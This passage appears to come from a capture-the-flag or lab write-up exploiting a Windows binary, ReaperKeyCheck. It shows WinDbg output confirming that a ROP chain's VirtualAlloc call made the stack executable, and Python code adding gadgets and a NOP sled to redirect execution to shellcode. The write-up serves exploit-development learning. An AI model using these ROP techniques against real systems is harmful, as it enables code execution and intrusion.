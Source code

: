 The page protection, as expected, was `PAGE_READWRITE`. I then examined the stack after the `VirtualAlloc` had returned control to my ROP chain:

```
0:003> !address rsp
...
Usage:                  Stack
Base Address:           0000009c`9e5fe000
End Address:            0000009c`9e600000
Region Size:            00000000`00002000 (   8.000 kB)
State:                  00001000          MEM_COMMIT
Protect:                00000040          PAGE_EXECUTE_READWRITE
Type:                   00020000          MEM_PRIVATE
Allocation Base:        0000009c`9e500000
Allocation Protect:     00000004          PAGE_READWRITE
```

The page protection was now `PAGE_EXECUTE_READWRITE`, meaning all I had to do was get control of `rip` and executed shellcode on the stack.

# Control of RIP

The first thing we need to do when exploiting 64bit x86 architecture is clean up the stack following a Win32 API call. This is straightforward, I added a `add rsp, 0x28` gadget and padded out the buffer. After this I pushed `rsp` on the stack (which pointed to the nops that followed). I no longer cared about the value in `rax` so the residual instruction (`and al, 0x08`) was not a concern:

```python
# Shellcode execution
# ---------------------------------------------------------------------------------
buffer += pack("<Q", base_address + 0x175b)         # add rsp, 0x28 ; ret ;
buffer += b"B" * 0x28                               # padding to control the stack
buffer += pack("<Q", base_address + 0x1becd)        # push rsp ; and al, 0x08 ; ret ;
buffer += b"\x90" * 1000                            # nops
```

If the shellcode gods were watching over me I should have code execution on the stack. I tested the entire rop chain and eventually observed nop execution:

```
0:003> p
ReaperKeyCheck+0x175f:
00007ff6`e5b1175f c3              ret
0:003> p
ReaperKeyCheck+0x1becd:
00007ff6`e5b2becd 54              push    rsp
0:003> p
ReaperKeyCheck+0x1bece:
00007ff6`e5b2bece 2408            and     al,8
0:003> p
ReaperKeyCheck+0x1bed0:
00007ff6`e5b2bed0 c3              ret
0:003> p
00000068`17cfefa8 90              nop
```

